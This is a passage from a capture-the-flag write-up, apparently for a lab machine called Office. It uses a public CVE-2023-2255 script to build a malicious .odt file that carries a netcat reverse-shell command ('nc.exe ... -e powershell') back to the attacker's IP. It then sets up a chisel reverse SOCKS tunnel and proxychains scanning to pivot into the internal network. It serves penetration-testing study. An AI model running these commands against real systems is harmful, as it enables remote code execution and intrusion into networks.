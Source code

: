 ![image53](../resources/cfd58c77af47401e9f04d45c3bca3042.png)

- **CVE-2023-2255:**
<https://github.com/elweth-sec/CVE-2023-2255/blob/main/CVE-2023-2255.py>

Git clone and use the py script to create a malicious file:

```bash
python3 CVE-2023-2255.py --cmd "C:\users\Public\nc.exe 10.10.14.66 5555 -e powershell" --output form.odt

```

![image54](../resources/ef719a30d9ec49a796d0d40d2b9359b1.png)

It injects it in contents.xml:


![image55](../resources/400d2b7a25ec43908adca18b90356678.png)

- Upload nc.exe to the target

- Running netstat -pant on the victim we can see:

![image56](../resources/dff9aa6c1f2844a0a3416393d4b6fbe7.png)

A webserver running on port 8083

- **<u>Create a pivot into the internal network:</u>**

- Upload chisel to the victim

- On Kali:

```bash
chisel server -p 8888 --reverse

```
- On target:

```bash
.\chisel.exe client 10.10.14.66:8888 R:socks

```
- Use proxychains on Kali:

```bash
proxychains nmap office.htb -Pn -sT -vvv

```
- Or to use a browser (if there was an internal web server):
  - Download Foxyproxy
  - Add a proxy - **SOCKS5 127.0.0.1:1080**

